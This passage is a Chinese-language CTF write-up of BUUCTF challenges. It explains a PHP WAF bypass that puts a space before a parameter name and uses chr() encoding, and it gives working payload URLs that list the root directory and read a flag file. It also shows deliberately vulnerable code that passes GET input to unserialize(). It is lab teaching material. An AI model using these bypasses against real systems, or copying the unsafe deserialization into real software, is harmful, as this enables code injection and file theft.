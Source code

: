 测试传递字母也不行。

**了解一下php的解析规则，当php进行解析的时候，如果变量前面有空格，会去掉前面的空格再解析**
**而这里黑名单过滤，没有过滤这种情况，那么久可以构造一个查询语句了**

这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

![image-20210405135216324](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405135223.png)

可以使用 chr()  函数绕过php代码正则。

payload:

```txt
http://node3.buuoj.cn:28507/calc.php? num=1;var_dump(scandir(chr(47)))

http://node3.buuoj.cn:28507/calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

## [极客大挑战 2019]Http

burp扫到一个php文件

![image-20210405141332039](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405141332.png)

访问

![image-20210405141410970](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405141411.png)

一步步伪造

![image-20210405141648887](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405141649.png)

## [极客大挑战 2019]PHP

备份 `www.zip`

index.php

```php
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
```